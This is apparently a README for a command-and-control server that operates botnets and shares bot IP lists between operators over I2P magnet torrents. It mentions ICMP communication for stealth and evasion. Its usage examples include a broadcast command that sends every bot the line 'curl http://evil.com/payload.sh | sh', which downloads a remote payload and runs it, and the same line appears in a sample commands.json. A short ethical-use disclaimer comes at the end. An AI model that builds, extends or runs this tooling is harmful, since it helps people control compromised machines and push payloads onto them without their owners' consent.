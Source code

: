 

# 📘 C2 Server over I2P with Bot Sharing via Magnet Torrents

---

## 🔧 Overview

This Command-and-Control (C2) server allows operators to:

* Control bots over the public internet.
* Seamlessly share bots with **other C2 servers** through **I2P** torrents (via magnet links).
* Use `i2psnark` to fetch and seed peer `.txt` files containing IPs of bots.
* Store all bot information in `bots.txt` automatically (from all peers).
* Send commands to a specific bot or **broadcast** to all online bots.
* it also talks to bots using icmp for stealth and evasion
* comes with example bot


This system requires **no registration**, has **no central authority**, and functions as a **decentralized, anonymous C2 federation** over the I2P network.

---

## 🛠️ Prerequisites

### ✅ Operating System

* Debian-based Linux (Ubuntu, Kali, Debian)
* Works on VPS, dedicated, or I2P-enabled hidden nodes

### ✅ Dependencies

* Python 3.8+
* `flask` and `requests` Python libraries
* I2P with **i2psnark** enabled

### ✅ Python Packages

Install dependencies:

```bash
sudo apt update
sudo apt install python3-pip curl -y
pip3 install flask requests
```

---

## 🌐 I2P Setup

1. **Install I2P** (Debian/Ubuntu):

   ```bash
   sudo apt install i2p
   ```

2. **Run I2P Router:**

   ```bash
   i2prouter start
   ```

3. Access I2P router console in your browser:

   ```
   http://127.0.0.1:7657
   ```

4. Go to **i2psnark**:

   ```
   http://127.0.0.1:7657/i2psnark/
   ```

---

## 📁 Project Structure

```
c2/
├── c2_server.py           # Main C2 server
├── magnet_links.txt       # Magnet links to join other C2's shared bots
├── shared_bots/           # Shared files (peer .txt files with bot IPs)
├── bots.txt               # Master list of known bots (local + shared)
└── commands.json          # Commands assigned to each bot
```

---

## 🔌 Setup & Running the Server

1. **Clone or place the files** in your server's working directory.

2. **Add magnet links** from other C2s in `magnet_links.txt`:

   ```
   magnet:?xt=urn:btih:EXAMPLEMAGNET1
   magnet:?xt=urn:btih:EXAMPLEMAGNET2
   ```

3. **Run the server:**

   ```bash
   python3 c2_server.py
   ```

---

## 📡 Features & Functionality

### 📥 `magnet_links.txt`

* This file contains a list of **I2P magnet links** to shared `.torrent` files from other C2s.
* Each torrent contains a `.txt` file with bot IPs.
* On launch, the server adds these to `i2psnark` via its local HTTP API.

---

### 📂 `shared_bots/` folder

* This is where i2psnark downloads `.txt` files from the shared torrents.
* Each file contains IP addresses of bots collected by other C2 servers.
* These are merged into `bots.txt` automatically every 60 seconds.

---

### 📜 `bots.txt`

* A master bot list (deduplicated) combining:

  * Your manually added bots
  * Peer-shared bots from `shared_bots/`

---

### 📦 `commands.json`

* Stores commands for each bot in this format:

  ```json
  {
    "bot1_public_ip": "curl http://evil.com/payload.sh | sh",
    "bot2_public_ip": "echo 'hi'"
  }
  ```

---

## 🧪 Usage Examples

### ➕ Add a command for a specific bot

```bash
curl -X POST http://localhost:8080/sendcmd \
     -H "Content-Type: application/json" \
     -d '{"botid": "154.65.100.201", "cmd": "whoami"}'
```

---

### 📢 Broadcast a command to all bots

```bash
curl -X POST http://localhost:8080/broadcast \
     -H "Content-Type: application/json" \
     -d '{"cmd": "curl http://evil.com/payload.sh | sh"}'
```

---

### 🤖 How bots fetch commands

Each bot should make requests like:

```
GET http://C2_IP:8080/getcmd/123.45.67.89
```

The server will respond with the latest command or an empty string.

---

## 📡 How I2P Sharing Works

1. Your C2 server:

   * Loads magnet links to shared `.torrent` files.
   * Downloads `.txt` files (with IPs of bots) via i2psnark.

2. Other C2s do the same:

   * They join your torrents and see your shared `shared_bots/local.txt`.

3. This builds a **mesh of shared botnets** using `.txt` files as simple syncing mediums.

---

## 🧷 How to Seed Your Own Bot List

1. Inside `shared_bots/`, create a file like `local.txt`:

   ```
   123.45.67.89
   11.22.33.44
   ```

2. Create a `.torrent` for `shared_bots/` folder using `i2psnark`.

3. Copy the generated **magnet link** from i2psnark, and give it to other C2 operators.

They can then add it to their own `magnet_links.txt` and receive your bot list.

---

## 🔐 Security & Anonymity

* Uses **I2P** to avoid public IP leakage between C2 servers.
* No central coordination — purely peer-to-peer.
* No usernames, passwords, or registration — just magnet links.
* Commands are only executed on bots reachable on the **clearnet**.

---

## ❗ Warnings (Ethical Use)

This system is designed **strictly for educational use, authorized testing, or simulations**. Misuse for illegal botnet control is a crime in most jurisdictions.

---

## 🧩 To Do / Optional Features

* Add encryption/signature verification for commands.
* Add an authentication mechanism (e.g., per bot token).
* Add reply/report channel for bots.
* Auto-generate `.torrent` files from CLI.

